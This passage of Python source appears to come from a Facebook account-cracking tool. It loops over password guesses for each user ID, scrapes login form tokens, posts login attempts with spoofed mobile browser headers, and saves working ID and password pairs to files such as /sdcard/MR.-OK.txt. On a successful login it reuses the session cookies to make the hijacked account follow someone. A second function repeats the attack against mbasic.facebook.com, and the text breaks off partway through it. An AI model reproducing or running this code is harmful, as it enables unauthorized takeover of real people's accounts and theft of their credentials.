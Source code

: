 			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				cp +=1
				print( f'\r\x1b[1;93m [MR.-OK ] {idf} | {pw}')
				open('OK/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [MR.-OK ] {idf} | {pw}')
				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/MR.-OK.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break
 
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def free(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r %s[ Count] %s/%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://mbasic.facebook.com/login/save-device/'"}